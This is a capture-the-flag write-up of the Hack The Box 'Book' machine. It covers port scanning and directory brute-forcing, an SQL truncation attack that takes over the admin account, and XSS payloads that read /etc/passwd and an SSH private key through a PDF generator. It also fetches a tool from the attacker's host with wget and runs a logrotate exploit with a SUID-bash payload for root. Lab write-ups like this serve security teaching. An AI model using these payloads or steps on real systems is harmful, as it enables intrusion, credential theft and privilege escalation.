

# [Book](https://app.hackthebox.com/machines/book)

```bash
nmap -p- --min-rate 10000  10.10.10.176 -Pn
```


After knowing open ports(22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.176 -Pn 
```


I just enumerate website via my account.


I just login via 'dr4ks@gmail.com: dr4ks' to application.


Directory brute-forcing.

```bash
gobuster dir -u http://10.10.10.176 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x php 
```


I browsed '/admin' page and it returns that there is no 'register' option, we can only login, I tried credentials which I created, but doesn't work.


I just enumerate users of this application via their emails that 'username@book.htb' for register section.


First, I tried via email 'admin@book.htb', and it says that user exists, that's why I know that there is user on **db of application**.


Full HTTP request&response.


**SQL TRUNCATION Attack** -> Here, I add spaces to end of email section, as a result, I can register an account via this email.
I added spaces (+) manually, for 6 of them worked for our case.


Why it is happening as because tells me the max string size in the DB is 20. So when the . is in **position 21**, it’s dropped, and I registered a user as admin@book.htb (with trailing spaces removed).

Now, I can login via below credentials  (/admin endpoint)

admin@book.htb: dr4ks


Now, I find XSS on non-admin site, that I malicious payloads into fields for book submission.


I can see my malicious paylaod while generating PDF file.


Let's add malicious javascript code that reads machine files.

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```


While opening a PDF file, it gives us like this answer.


Let's read private key (id_rsa) file of 'reader' user.

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```


Let's browse the page which we upload.


user.txt




I upload `pspy64` tool to see hidden processes on our target system.

```bash
python3 -m http.server --bind 10.10.14.6 8080
```


On target, I download a file.
```bash
cd /tmp
wget http://10.10.14.6:8080/pspy64
```


Here, I see 'logrotate' process is running.


I searched publicly known exploit for this.

I find this [article](https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b) for privilege escalation.


You can get [Exploit](https://github.com/whotwagner/logrotten) script.


Let's compile malicious script via `gcc`.

```bash
gcc -o logrotten logrotten.c 
```

I also create malicious bash script which generates reverse shell.

My malicious bash script which add **SUID bit into '/bin/bash' binary.** (payload.sh)

```bash
#!/bin/sh
chmod +s /bin/bash
```

Then, I execute script(logrotten).
```bash
echo Hello >> /home/reader/backups/access.log;./logrotten -p payload.sh  /home/reader/backups/access.log
```


Then, I tried many times `bash -p` command. One time, it worked.


root.txt

